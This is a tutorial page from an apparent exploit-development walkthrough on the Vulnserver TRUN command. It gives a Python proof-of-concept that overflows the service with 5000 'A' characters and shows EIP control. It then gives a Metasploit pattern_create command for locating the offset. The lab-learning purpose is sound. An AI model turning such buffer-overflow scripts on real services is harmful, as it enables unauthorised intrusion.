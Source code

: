 ```yaml
---
title: "TRUN EIP Overwrite"
layout: home
permalink: /vulnserver/trun/
collection: vulnserver
sidebar:
  nav: "main"
entries_layout: grid
classes: wide
---
```


Begin by using the below proof of concept script, developed by using the SPIKE fuzzer to identify a hole in the Vulnserver TRUN command.

	Vulnserver TRUN Python Script: POC
		#!/usr/bin/python
		import socket
		import os
		import sys

		crash="A"*5000

		buffer="TRUN /.:/"
		buffer+=crash

		print "[*] Sending evil TRUN request to VulnServer, OS-42279"
		expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
		expl.connect(("192.168.83.128", 9999))
		expl.send(buffer)
    expl.close()

Running this POC script against Vulnserver produces the same result in the OllyDbg debugger as our previous SPIKE fuzzing attempts. As a very nice bonus, the input we sent has been used to control the value of a very important register in the CPU – the EIP (Extended Instruction Pointer) register. Notice how the EIP register contains the value 41414141?

![trun-eip-overwrite-media-01](/vulnserver/trun-eip-overwrite-media/trun-eip-overwrite-media-01.png)

Additional testing proves that a 2500 byte buffer will also cause the Vulnserver application to crash due to an access violation. Create a 2500 byte patterned string to identify which part of the buffer is being stored in the EIP.
	> /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2500

Insert the 2500 character pattern into the Vulnserver TRUN POC Python Script.
